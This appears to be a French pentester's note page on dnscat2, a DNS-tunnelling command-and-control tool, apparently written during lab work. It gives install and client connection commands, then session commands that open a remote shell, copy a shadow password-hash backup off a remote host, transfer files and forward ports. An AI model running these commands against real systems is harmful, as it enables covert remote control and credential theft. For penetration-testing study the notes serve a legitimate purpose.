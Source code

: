 .pentest
[[Readme (outils)]]

![[Pasted image 20231116111024.jpg]]


# Installation
$ git clone https://github.com/iagox86/dnscat2.git
$ cd dnscat2/client/
$ make
./dnscat

$ git clone https://github.com/iagox86/dnscat2.git
$ cd dnscat2/server/
$ gem install bundler
$ bundle install

Serveur
ruby ./dnscat2.rb 

Client 
./dnscat --dns server=x.x.x.x,port=53 --secret=c52fa7091bb77c621bf3f94e996a2f53
# Exploitation


"""on ouvre en wireshark sur le client filtre dns"""
## Importation de fichier depuis une machine distante
Sur le serveur :
* session -i 1
* shell
ça crée une fenêtre
* Session -i num_de_la_fenetre
* sudo scp user@10.10.0.136:/tmp/shadow.backup /home/kali/
download /home/parrot/eliot_vicon.jpg /home/kali/Pictures/bg.jpg
## On upload un fichier 
UPLOAD FICHIER
session -i 1
upload /home/kali/Pictures/hacking.jpeg /home/parrot/Desktop/secret.jpeg

## On écoute sur les ports de la machine

*On écoute le port DNS*
* listen 127.0.0.1:53 10.10.0.154:53
* listen 127.0.0.1:8080 10.10.0.154:8080
*Sur Wireshark 
* dns, ip.src==10.10.0.158

## On exécute des logiciels importants  
* exec wireshark -i enp0s3 